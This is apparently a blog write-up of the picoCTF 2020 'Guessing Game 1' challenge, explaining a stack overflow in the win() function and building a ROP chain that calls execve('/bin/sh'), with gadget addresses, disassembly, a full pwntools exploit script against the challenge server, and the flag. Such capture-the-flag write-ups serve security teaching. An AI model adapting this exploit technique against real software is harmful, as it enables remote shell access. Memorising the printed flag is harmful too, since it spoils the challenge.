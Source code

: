 # Blog
https://frc6.com/index.php/tag/picoctf_2020mini/

# Question
### Source
https://play.picoctf.org/events/3/challenges/challenge/90
### Description
I made a simple game to show off my programming skills. See if you can beat it!
[Gussing Game 1.zip][1]
`nc jupiter.challenges.picoctf.org 50583`

# Tools
IDA
VM - Kali Linux
Python
ROPgadget

# Analysis
## Knowledge points
Binary Exploitation
Return-oriented programming (ROP)
The goal of the Challenge Question is to run `execve("/bin/sh",NULL,NULL)` on the remote server.
Tips: No shellcode b/c NX is enabled: you cannot execute stack

## vuln
Analysis vuln.c and found that there is a **Stack Overflow Vuln**: 

    void win() {
        char winner[BUFSIZE];
        printf("New winner!\nName? ");
        fgets(winner, 360, stdin);//overflow vuln
        printf("Congrats %s\n\n", winner);
    }
Grabbing control of `eip` by taking advantage of the vuln to let the program Stack Overflow.

## Gadgets
Run the following commands:

    ROPgadget --binary vuln --only "pop|ret"
    ROPgadget --binary vuln --only "mov|ret"
    ROPgadget --binary vuln --only "syscall|ret"

Do ROP to achieve the goal—`execve("/bin/sh",NULL,NULL)`—by using the following gadgets:

    0x00000000004163f4 : pop rax ; ret
    0x000000000044a6b5 : pop rdx ; ret
    0x0000000000400696 : pop rdi ; ret
    0x0000000000436393 : mov qword ptr [rdi], rdx ; ret
    0x000000000044cc49 : pop rdx ; pop rsi ; ret
    0x000000000040137c : syscall

## Disassembly

### do_stuff()
Input the Gussing Number "84" for the first time (you only need one time if you guess correct so you can access to win() function)

Q: Why "84"
A: Dynamic debugging (IDA debugger or GDB)
Set a breakpoint at the following position:

    .text:0000000000400BBC                 mov     [rbp+var_ans], rax

`rax` will be equal to 84

### win()
    .text:0000000000400C40                 public win
    .text:0000000000400C40 win             proc near               ; CODE XREF: main+70↓p
    .text:0000000000400C40
    .text:0000000000400C40 winner          = byte ptr -70h
    .text:0000000000400C40
    .text:0000000000400C40 ; __unwind {
    .text:0000000000400C40                 push    rbp
    .text:0000000000400C41                 mov     rbp, rsp
    .text:0000000000400C44                 sub     rsp, 70h
    .text:0000000000400C48                 lea     rdi, aNewWinnerName ; "New winner!\nName? "
    .text:0000000000400C4F                 mov     eax, 0
    .text:0000000000400C54                 call    printf
    .text:0000000000400C59                 mov     rdx, cs:stdin
    .text:0000000000400C60                 lea     rax, [rbp+winner]
    .text:0000000000400C64                 mov     esi, 168h
    .text:0000000000400C69                 mov     rdi, rax
    .text:0000000000400C6C                 call    fgets
    .text:0000000000400C71                 lea     rax, [rbp+winner]
    .text:0000000000400C75                 mov     rsi, rax
    .text:0000000000400C78                 lea     rdi, aCongratsS ; "Congrats %s\n\n"
    .text:0000000000400C7F                 mov     eax, 0
    .text:0000000000400C84                 call    printf
    .text:0000000000400C89                 nop
    .text:0000000000400C8A                 leave
    .text:0000000000400C8B                 retn
    .text:0000000000400C8B ; } // starts at 400C40
    .text:0000000000400C8B win             endp

The return address of the function is stored at `rbp+8`, so overwrite it by overflowing the stack

## ROP: Gadgets
We are planning to run the following assembly code after win() return.

    ret        (retn of win() at .text:0000000000400C8B)
    pop rax
    ret
    pop rdx
    ret
    pop rdi
    ret
    mov qword ptr [rdi], rdx
    ret
    pop rdx
    pop rsi
    ret
    syscall

In order to run `execve("/bin/sh",NULL,NULL)` successfully, `rax` should be equal to 59 durning `syscall` is running, `rdi` should be the pointer of "/bin/sh", and `rsi` and `rdx` should be equal to 0 (NULL).

So, we should let the Stack like this:

    rbp+8		0x00000000004163f4			Address of one of Gadget
    rbp+10h		59					rax
    rbp+18h		0x000000000044a6b5			Address of one of Gadget			
    rbp+20h		"/bin/sh"				rdx (temporary use; will be overwrite later)
    rbp+28h		0x0000000000400696			Address of one of Gadget
    rbp+30h		0x00000000006BA770			rdi
    rbp+38h		0x0000000000436393			Address of one of Gadget
    rbp+40h		0x000000000044cc49			Address of one of Gadget
    rbp+48h		0					rdx
    rbp+50h		0					rsi
    rbp+58h		0x000000000040137c			syscall

## Remote to Find Flag: Python

Run the following Python program:

    from pwn import *
    
    sh = remote('jupiter.challenges.picoctf.org',50583)
    
    p = make_packer('all', endian='big', sign='unsigned')
    p64 = make_packer(64, endian='little', sign='unsigned')
    
    payload = p(0x90)*(0x70+8)	#rbp-70h
    payload += p64(0x4163f4)	#rbp+8h
    payload += p64(59)			#rbp+10h
    payload += p64(0x44a6b5)	#rbp+18h
    payload += p(0x2F62696E2F736800)	#rbp+20h
    payload += p64(0x400696)	#rbp+28h
    payload += p64(0x6BA770)	#rbp+30h
    payload += p64(0x436393)	#rbp+38h
    payload += p64(0x44cc49)	#rbp+40h
    payload += p64(0)			#rbp+48h
    payload += p64(0)			#rbp+50h
    payload += p64(0x40137c)	#rbp+58h
    
    sh.recvuntil('guess?\n')
    sh.sendline(p(0x3834))#84
    
    sh.recvuntil('\nName? ')
    sh.sendline(payload)
    
    sh.interactive()

![result.png][2]

So the Flag is `picoCTF{r0p_y0u_l1k3_4_hurr1c4n3_1ed68bc5575f6be1}`

  [1]: https://frc6.com/usr/uploads/2020/10/2453405697.zip
  [2]: https://frc6.com/usr/uploads/2020/10/1353396828.png
